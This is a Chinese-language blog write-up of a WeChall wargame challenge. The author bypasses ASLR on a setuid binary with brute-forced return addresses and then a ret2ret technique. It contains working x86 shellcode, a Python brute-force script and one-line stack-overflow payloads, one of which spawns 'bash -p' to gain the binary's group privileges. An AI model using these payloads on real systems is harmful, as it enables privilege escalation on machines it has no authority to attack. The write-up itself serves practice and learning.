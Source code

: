 ```yaml
---
title: 'Writeup-Training: Warchall - 7 Tropical Fruits'
tags: [Hack, Python, Writeup]
date: 2014-05-14
slug: "wechall-tropic-writeup"
---
```

<p style="color: #000000;">
  Challenge URL：<a style="color: #294666;" href="http://www.wechall.net/challenge/warchall/tropical/7/index.php">Training: Warchall &#8211; 7 Tropical Fruits</a>
</p>

Wechall的tropic这道题真是撸得我考试周复(yu)习(xi)都没心思了，花了两天半终于搞定了，才63人做出来的题目居然是training！！！

做这题的时候也是我第一次写shellcode，不过这道题难点不在于shellcode怎么写，而在于坑爹的ASLR。不说stack的地址一直在变，居然连linux-gate.so都在变！

一开始查了好久，发现个思路叫ret2libc，然后我gdb了一下，发现system()的地址虽然是随机的，但是有6位是不变的。然后我就撸啊撸，撸了个shell脚本，速度不错，居然半分钟之内就能把system(&#8220;sh&#8221;)跑出来。看到&#8221;sh-4.2$&#8221;的时候我那叫一个激动啊。坑爹的是system()这货执行的时候居然会丢掉suid的权限(man system#NOTES)。

所以忙活了一天，我的成果就是，在一个shell下面，再开一个shell&#8230;&#8230;

然后第二天我不甘心啊，就找啊找找啊找，找到了exec函数族。

```c
#include <unistd.h>
extern char **environ;
int execl(const char *path, const char *arg, ...);
int execlp(const char *file, const char *arg, ...);
int execle(const char *path, const char *arg, ..., char * const envp[]);
int execv(const char *path, char *const argv[]);
int execvp(const char *file, char *const argv[]);
int execve(const char *path, char *const argv[], char *const envp[]);
//其中只有execve是真正意义上的系统调用，其它都是在此基础上经过包装的库函数。
```

这货厉害，suid会传递下去，但是悲催的是每个函数的参数不止一个，而且大多都要求最后一个参数为NULL(直接无视)，但是execv之类的函数又不方便构造后面的那些二阶指针，所以我昨天就是在满屏的Segmentation Fault中度过的，偶尔出现的Invalid Instruction能让人高兴好一阵。

第二天无果，不过我cat了一下compile7.sh，发现了好玩的东西

```shell
#!/bin/bash
gcc -fno-stack-protector -z execstack level7.c -o level7
chmod 6755 level7
```

是的&#8230;出题者把DEP关掉了&#8230;然后我就睡不着了

## 解法：

今天早上考完离散就立马赶回寝室继续撸这道题，虽然解法很很蠢(对stack的5个随机位进行碰撞)，但是至少能在10分钟内出结果……

先给solution.txt建一个到工作目录软连接:

```shell
$ ln -s /home/level/tropic/7/solution.txt ./lk
```


然后跑这个python脚本：

```python
# -*- coding=utf8 -*-
__author__ = 'Cubarco'


def tropic_crack():
    try:
        shellcode = "1\xc0\x99Rh/cath/bin\x89\xe3Rh./lk" \
                    "\x89\xe1\xb0\x0bRQS\x89\xe1\xcd\x80"
        stack_hex = hex(random.randint(0xbf00000, 0xbffffff)*0x10+0x01)[:-1]
        stack_int = int(stack_hex, 16)
        path = "/home/level/tropic/7/level7"
        args = [path,
                '\x90'*(312-len(shellcode))
                + shellcode
                + struct.pack('&lt;L', stack_int)]
        args[1] = args[1].replace("(", "\\(")\
                         .replace("\"", "\\\"")\
                         .replace(")", "\\)")\
                         .replace("\\", "\\\\")\
                         .replace("\'", "\\\'")
        p = subprocess.Popen(args,
                             stdout=subprocess.PIPE,
                             stderr=subprocess.PIPE,
                             shell=False)
        rsp = p.stdout.read()
        if rsp != '':
            print rsp
    except:
        # print traceback.format_exc()
        # 好像subprocess开太快了会出问题...
        pass


if __name__ == '__main__':
    import struct
    import random
    import subprocess
    import traceback
    
    while True:
        tropic_crack()
```

做完题去题解讨论区看到个ret2ret的思路感觉好棒，有时间研究一下。

对了，跑脚本的时候如果它卡住了而且ctrl+c关不掉请不要来打我。正确姿势是killall&#8230;..

UPDATE: 刚看了一下ret2ret，我想去死一死了。是的，只用下面一句话就能搞定，oh，前提还是给solution.txt建立一个到工作目录的软链接，名字是lk（其实是因为./lk刚好是四字节， 如果用原来的路径好麻烦还要四字节对齐，偷个懒）

```shell
$ /home/level/tropic/7/level7 `python -c "print '\x90'*(312-33)+'1\xc0\x99Rh/cath/bin\x89\xe3Rh./lk\x89\xe1\xb0\x0bRQS\x89\xe1\xcd\x80'+'\xd2\x84\x04\x08'"`
# 0x080484d2是程序里面一个执行ret指令的地址，随便挑！
```

更BT一点还可以这样，跑一个/bin/bash -p：

```shell
$ /home/level/tropic/7/level7 `python -c "print '\x90'*(312-33)+'j\x0bX\x99Rfh-p\x89\xe1Rjhh/bash/bin\x89\xe3RQS\x89\xe1\xcd\x80'+'\xd2\x84\x04\x08'"`
bash-4.2$ id
uid=4057(cubarco) gid=4057(cubarco) egid=1008(level7) groups=4057(cubarco)
# 然后你就有level7的egid了...
```

##  参考：

  1. Hackers Hut#[Smashing The Stack][1](ASLR bypassing overview)
  2. [Performing a ret2libc Attack][2](ret2libc)
  3. [Return-to-libc Attack Lab][3](ret2libc)
  4. [Smack the Stack][4](ret2ret)

 [1]: http://www.win.tue.nl/~aeb/linux/hh/hh-10.html
 [2]: http://protostar-solutions.googlecode.com/hg/Stack%206/ret2libc.pdf
 [3]: http://www.cis.syr.edu/~wedu/seed/Labs/Vulnerability/Return_to_libc/Return_to_libc.pdf
 [4]: http://web.textfiles.com/hacking/smackthestack.txt
